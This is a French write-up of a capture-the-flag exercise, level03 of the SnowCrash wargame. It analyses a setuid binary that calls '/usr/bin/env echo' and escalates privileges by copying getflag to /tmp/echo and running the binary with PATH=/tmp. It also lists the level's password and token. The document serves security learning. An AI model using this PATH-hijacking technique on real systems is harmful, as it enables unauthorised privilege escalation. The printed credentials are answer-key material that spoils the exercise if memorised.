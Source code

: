 # LEVEL03

**LOGIN: level03**

**PASSWORD: kooda2puivaav1idi4f57q8iq**

----

Maintenant on a un binaire et un setuid: 
```
level03@SnowCrash:~$ ls -l ; echo ;  file level03

-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03

level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```

De `strings level03`  on sort cette ligne d'intéressant : `/usr/bin/env echo Exploit me`

De `nm level03` : ` U system@@GLIBC_2.0`

De `strace -f -s 1000 ./level03`:   `execve("/usr/bin/env", ["/usr/bin/env", "echo", "Exploit", "me"], [/* 18 vars */]) `



Du coup, il suffit de changer le path, et le nom du binaire qu'on veut faire exec avec les droits suid : 

```
cp  /bin/getflag /tmp/echo
PATH=/tmp ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
``` 

**TOKEN = qi0maab88jeaj46qoumi7maus**
